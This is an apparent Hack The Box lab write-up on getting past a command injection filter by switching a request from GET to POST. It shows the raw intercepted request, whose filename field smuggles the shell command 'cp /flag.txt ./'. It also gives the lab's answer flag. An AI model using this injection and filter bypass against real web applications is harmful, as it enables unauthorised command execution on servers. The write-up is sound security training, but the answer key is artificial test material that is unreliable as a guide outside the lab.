

# Section 04: Bypassing Security Filters

Module: 23. Web Attacks

---

## Questions & Answers

### 1. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

Context:
- Intercept the `/index.php?filename=file%3B+cp+%2Fflag.txt+.%2F` request, change the request method to `POST`:
```bash
POST /index.php HTTP/1.1
Host: 154.57.164.76:30223
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://154.57.164.76:30223/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

filename=file%3B+cp+%2Fflag.txt+.%2F
```
- Then forward the request, we will see the `flag.txt`:


**Answer:** `HTB{b3_v3rb_c0n51573n7}`

---

[Back to Module Index](./README.md)
